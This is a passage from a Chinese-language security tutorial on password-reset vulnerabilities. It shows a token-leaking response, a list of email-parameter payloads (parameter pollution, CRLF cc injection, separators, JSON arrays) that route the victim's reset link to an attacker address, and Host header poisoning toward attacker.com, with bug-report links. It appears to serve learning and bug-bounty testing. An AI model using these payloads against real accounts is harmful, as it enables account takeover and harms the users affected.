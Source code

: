 **示例响应：**  
```
HTTP/1.1 200 OK{“name”:”send-email”,”resetPasswordLink”:”https://app.xprogram.com/account/reset-password?token=xxxxxxxxxzzzzzzzzyyyyyyyy&#34;  , “many-other-parameters”:”many values”}
```  
  
案例：  
  
https://medium.com/@yassergersy/account-take-over-via-reset-password-f2e9d887bce1  
### 4.通过操纵邮箱参数重置密码。通过响应泄露密码重置令牌  
  
在为受害者用户请求密码重置链接时，我们可以尝试以下参数操纵，以在攻击者邮箱中获得受害者的重置链接副本。  
```
双重参数（即HPP / HTTP参数污染）：
email=victim@xyz.tld&email=hacker@xyz.tld

抄送：
email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld

使用分隔符：
email=victim@xyz.tld,hacker@xyz.tld
email=victim@xyz.tld%20hacker@xyz.tld
email=victim@xyz.tld|hacker@xyz.tld

无域名：
email=victim

无顶级域名（TLD）：
email=victim@xyz

XML：
尝试XXE！

JSON表格：
json
{
"email":["victim@xyz.tld",
"hacker@xyz.tld"]
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76nKLPlJmaH82BgBNrnDM3UGPQSxoX2JFMFC4LSVVWe2YLMicPicMyibfCrEPJm7mqndPib1tuPK5RLBWg/640?wx_fmt=png&from=appmsg "null")  
  
Capture  
  
**案例：**  
  
https://hackerone.com/reports/1175081  
### 5. Host Header中毒  
  
实现密码重置功能的常见方式是生成一个密令并发送包含该令牌的链接的电子邮件。 如果攻击者能够更改Host头部，那么他们就可以将令牌重定向到他们的网站或服务器，这可能导致密码重置中毒。  
1. 1. 拦截请求并更改Host头部为attacker.com。  
  
1. 2. 现在检查您的邮件，如果您收到了包含attacker.com的URL的密码重置链接，那么它就易受密码重置中毒的影响。  
  